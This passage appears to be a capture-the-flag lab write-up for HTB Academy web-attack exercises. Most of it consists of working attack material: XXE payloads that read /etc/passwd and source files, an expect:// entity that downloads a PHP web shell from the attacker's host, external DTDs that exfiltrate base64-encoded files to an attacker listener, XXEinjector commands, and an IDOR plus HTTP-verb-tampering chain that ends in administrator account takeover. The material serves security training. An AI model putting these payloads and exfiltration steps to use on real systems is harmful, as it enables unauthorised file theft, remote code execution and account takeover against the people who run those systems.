```xml
<!DOCTYPE email [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
```

We reference the entity as before:

```xml
<email>
    &test;
</email>
```



The application successfully returns the contents of `/etc/passwd`, demonstrating **local file disclosure via XXE**.


The same technique can be extended using **PHP filter wrappers** to read application source code. For example, we can base64-encode the contents of `index.php`:

```xml
<!DOCTYPE email [
<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

Reference the entity:

```xml
<email>
    &test;
</email>
```


The application returns the base64-encoded source code, which can then be decoded locally:



In some configurations, XXE vulnerabilities can be escalated to **remote code execution**. One approach involves abusing the PHP `expect` wrapper to execute system commands.

We first create a simple PHP web shell and host it on our attacking machine:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
```

```bash
sudo python3 -m http.server 8001
```

We then reference the shell using an external entity:

```xml
<!DOCTYPE email [
<!ENTITY test SYSTEM "expect://curl$IFS-O$IFS'IP:8001/shell.php'">
]>
```

If successful, this technique downloads the web shell to the back-end server, potentially allowing arbitrary command execution.

---

### Advanced File Disclosure - CDATA

In some cases, file contents may not be readable using basic XXE techniques. This can occur when:

- The file contains characters that break XML parsing, or
- The application does not directly reflect injected entity values

In the previous section, `PHP filter wrappers` were used to base64-encode source code in order to preserve XML syntax. While effective, this approach is limited to environments where such wrappers are available.

An alternative and more flexible technique involves wrapping the contents of an external file inside a `CDATA` section. The `CDATA` construct instructs the XML parser to treat the enclosed content as raw character data, allowing special characters (such as `<`, `>`, and `&`) to be processed without breaking the XML document. This technique can be applied to any file type, not just PHP source code.

**Step 1: Create and Host a Malicious DTD**

We begin by creating a simple external `DTD` file that concatenates multiple entities into a single output:

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```

We then host the `DTD` on our attacking machine:

```bash
python3 -m http.server 8001
```

**Step 2: Inject CDATA-Based XXE Payload**

Next, we include the following XML entity definitions in the vulnerable request:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8001/xxe.dtd">
  %xxe;
]>
```

The payload works as follows:

- `%begin` and `%end` define the `CDATA` opening and closing tags
- `%file` references the target file on the back-end system
- The external DTD (`xxe.dtd`) combines these entities into a single joined entity

We then reference the constructed entity within the vulnerable `email` element:

```xml
<email>&joined;</email>
```

**Step 3: Confirm File Disclosure**

Upon submission, we observe an inbound request to our server, confirming that the external DTD was successfully retrieved:

```
10.129.234.170 - - [03/Jan/2026 13:56:08] "GET /xxe.dtd HTTP/1.0" 200 -
```



The application returns the contents of the target file, wrapped safely inside a `CDATA` section:

```
<?php $flag = "HTB{3rr0r5_c4n_l34k_d474}"; ?>
```



---

### Advanced File Disclosure - Error Based

In some scenarios, an application may **not reflect any XML output** in its response. When this occurs, direct data extraction through entity reflection is not possible. However, if the application displays **XML parsing or runtime errors**, it may still be possible to leak sensitive information through **error-based XXE exploitation**.

This technique abuses the parser’s error-handling behavior to force the contents of a local file to be included in an error message.

**Step 1: Trigger XML Parsing Errors**

We begin by testing whether the application displays XML parsing errors. By referencing a **non-existent entity**, we intentionally submit malformed XML:

```xml
<email>
    &errorEntity;
</email>
```

The application responds with an error message and reveals the file system path of the executing script:

```
/var/www/html/error/submitDetails.php
```


This confirms that:

- XML parsing errors are visible to the user
- The back-end directory structure is partially disclosed

Both conditions are required for error-based XXE exploitation.

**Step 2: Create a Malicious External DTD**

Next, we create an external DTD (`xxe.dtd`) designed to concatenate the contents of a local file with a non-existent entity, forcing the parser to raise an error that includes the file contents.

```bash
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

We then host the `DTD` on our attacking machine:

```bash
python3 -m http.server 8001
```

In this payload:

- `%file` references the target file
- `%nonExistingEntity;` ensures a parsing error is triggered
- The parser attempts to resolve the combined entity, leaking the file contents in the resulting error message

**Step 3: Reference the External DTD**

We include the external DTD within the XML request by defining and invoking a parameter entity:

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8001/xxe.dtd">
  %remote;
  %error;
]>
```



Unlike reflective XXE attacks, this technique does **not require referencing the entity within a visible XML element** (e.g., `&joined;`). The leakage occurs entirely during XML parsing.

**Step 4: Extract File Contents from Error Message**

The application returns an error message containing the contents of the target file:

```
<?php $flag = "HTB{3rr0r5_c4n_l34k_d474}"; ?>
```


This confirms successful **error-based file disclosure via XXE**, even though no application output was directly reflected.

---

### Out-of-band Data Exfiltration

In the previous section (**Advanced File Disclosure – Error-Based**), we exploited a **blind XXE vulnerability** by leveraging verbose runtime error messages. In this scenario, we encounter a **fully blind XXE vulnerability**, where **no output is returned**—neither reflected entity values nor parser errors.

To exfiltrate data under these conditions, we use **Out-of-Band (OOB) data exfiltration**. This technique forces the application to send the extracted data to an **external system controlled by the attacker**, rather than returning it in the HTTP response.

OOB techniques are not unique to XXE and are commonly used in **SQL injection**, **command injection**, and **XSS** attacks.

**Step 1: Create Malicious External DTD**

We begin by defining two parameter entities inside an external DTD file (`xxe.dtd`).

The first entity reads a local file from the back-end server and **base64-encodes its contents** using a PHP filter wrapper to prevent XML parsing issues:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
```

The second entity sends the encoded file contents to our server via an HTTP `GET` request:

```xml
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://IP:8001/?content=%file;'>">
```

Both entities are saved within the same `xxe.dtd` file.

**Step 2: Start a Listener**

Next, we start a listener on our attacking machine to capture outbound requests from the target server. Any of the following methods can be used:

```bash
sudo python3 -m http.server 8001
```

or

```bash
sudo php -S 0.0.0.0:8001
```

or

```bash
sudo nc -lvnp 8001
```

**Step 3: Reference the External DTD**

We inject the following payload directly after the XML declaration to load and process the external DTD:

```xml
<!DOCTYPE email [ 
<!ENTITY % remote SYSTEM "http://IP:8001/xxe.dtd">
%remote;
%oob;
]>
```

Finally, we reference the `content` entity within the vulnerable XML element:

```xml
<email>
  &content;
</email>
```


Although no output is returned in the application response, the XML parser processes the external entities during parsing.

**Step 4: Retrieve Exfiltrated Data**

On our listener, we observe inbound requests from the target server:

```
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.129.234.170 - - [04/Jan/2026 07:00:24] "GET /xxe.dtd HTTP/1.0" 200 -
10.129.234.170 - - [04/Jan/2026 07:00:24] "GET /?content=cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5O ...
```



The `content` parameter contains the base64-encoded contents of the target file. We decode it locally:

```bash
echo "<base64 string>" | base64 -d
```


This confirms successful **out-of-band data exfiltration via XXE**, even in a fully blind exploitation scenario.

---

### Automated Out-of-band Data Exfiltration

XXE vulnerabilities, **including out-of-band (OOB) data exfiltration**, can be efficiently automated using specialized tools such as `XXEinjector`. Automation is especially useful when dealing with fully blind XXE vulnerabilities, where manual extraction is slow or impractical.

To begin, clone the `XXEinjector` repository from GitHub and operate from the project directory:

```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

In the intercepted HTTP request, insert the following placeholder **immediately after the XML declaration**:

```
XXEINJECT
```

This placeholder acts as a **marker** that tells the tool where to inject its payload.

Only include the XML declaration followed by the placeholder. The full XML document should **not** be present in the request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
  XXEINJECT
```



Save the modified request to a file (e.g., `req.txt`).

The following command performs the same **fully blind OOB XXE attack** demonstrated in the previous section, targeting `/etc/passwd`:

```bash
ruby XXEinjector.rb --host=IP --httpport=8001 --file=req.txt --path=/etc/passwd --oob=http --phpfilter
```

All exfiltrated data is automatically stored in the tool’s log directory:

```
/XXEinjector/Logs
```

In this case, the extracted file is saved as:

```
/XXEinjector/Logs/passwd.log
```



This confirms successful **automated out-of-band data exfiltration** via XXE.

---

## Web Attacks - Exploitation Example

The objective of this exercise is to escalate privileges and exploit multiple vulnerabilities in order to retrieve the flag located at:

```
/flag.php
```
Authenticate to `IP:PORT` using the following credentials:

- `htb-student` 
- `Academy_student!`

**Initial Reconnaissance:**

After authentication, we are presented with an **employee profile page**:


The application uses PHP, as indicated by the file extension:

```
http://94.237.60.55:30663/profile.php
```

Navigating to the `Settings` section redirects us to:

```
http://94.237.60.55:30663/settings.php
```


The only available functionality on this page is password reset.

**Password Reset Analysis:**

When changing the password, the application performs a `GET` request to the following API endpoint:

```
http://94.237.60.55:30663/api.php/token/74
```


The response contains an API token in `JSON` format:

```json
{"token":"e51a8a14-17ac-11ec-8e67-a3c050fe0c26"}
```


Immediately after, the application sends a `POST` request to:

```
http://94.237.60.55:30663/reset.php
```


This request includes:

- `uid`
- API `token`
- New `password`

**Identifying an IDOR Vulnerability:**

Revisiting the original token request, we attempt to modify the `uid` value both in the URL and in the cookie:

```
http://94.237.60.55:30663/api.php/token/1

Cookie: PHPSESSID=t2mmsfv...dnc2; uid=1
```



The server returns a **valid API token for another user**:

```json
{"token":"e51a7c5e-17ac-11ec-8e1e-2f59f27bf33c"}
```



This confirms the presence of an **Insecure Direct Object Reference (IDOR)** vulnerability.

**Attempted Password Reset (POST):**

We attempt to reuse the new API token to reset the password of `uid=1` via the original `POST` request:



The server responds with:

```
Access Denied
```



We attempt to bypass the restriction by changing the request method from `POST` to `GET`:

```
http://94.237.60.55:30663/reset.php?uid=1&token=e51a7c5e-17ac-11ec-8e1e-2f59f27bf33c&password=test
```



The response confirms success:

```
Password changed successfully
```



We have successfully exploited **IDOR via HTTP verb tampering**.

**Enumerating Users via IDOR:**

Upon login, the application sends the following request:

```
http://94.237.60.55:30663/api.php/user/74
```


Response:

```json
{"uid":"74", "username":"htb-student", "full_name":"Paolo Perrone", "company":"Schaefer Inc"}
```



Changing the `uid` parameter returns information for other users:

```
http://94.237.60.55:30663/api.php/user/1
```



This confirms **unauthenticated user enumeration via IDOR**.

We automate enumeration using a `Bash` script:

```bash
#!/bin/bash

for uid in {1..100}; do
	curl -s "http://IP:PORT/api.php/user/$uid"; echo
done
```

Filtering results for administrative accounts:

```bash
./exploit.sh | grep -i "admin" | jq
```

We identify an administrator account:

```json
{"uid":"52", "username":"a.corrales", "full_name":"Amor Corrales", "company":"Administrator"}
```


**Administrator Account Takeover:**

First, we retrieve a valid API token for the administrator:

```
http://94.237.60.55:30663/api.php/token/52

Cookie: PHPSESSID=t2mmsfv...dnc2; uid=52
```

Response:

```
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```


Using HTTP verb tampering, we reset the administrator password:

```
http://94.237.60.55:30663/reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=test
```



We can now log in as administrator:

```
a.corrales:test
```



At this point, **privilege escalation is complete**.

**XXE Exploitation to Read Flag:**

Within the administrator interface, we discover an `ADD EVENT` function:


Creating a new event reveals that the application submits data in `XML` format:





The response reflects the XML `<name>` element, indicating a potential **XXE injection point**.

Since the flag is stored in a PHP file, we use the PHP base64 filter to safely extract its contents.

Inject the following `DOCTYPE` declaration after the XML declaration:

```xml
<!DOCTYPE email [
<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
```

Reference the entity in the vulnerable element:

```xml
<name>
  &test;
</name>
```


The server responds with base64-encoded data:

```
Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```



Decode the output locally:

```bash
echo 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' | base64 -d
```

Flag:

```
HTB{m4573r_w3b_4774ck3r}
```



In this assessment, we successfully chained multiple web vulnerabilities:

- IDOR to access unauthorized resources
- HTTP verb tampering to bypass access controls
- User enumeration via vulnerable API endpoints
- Privilege escalation through account takeover
- XXE injection to read local files on the server

This demonstrates how seemingly minor vulnerabilities can be combined into a full compromise chain, ultimately leading to sensitive data disclosure.

---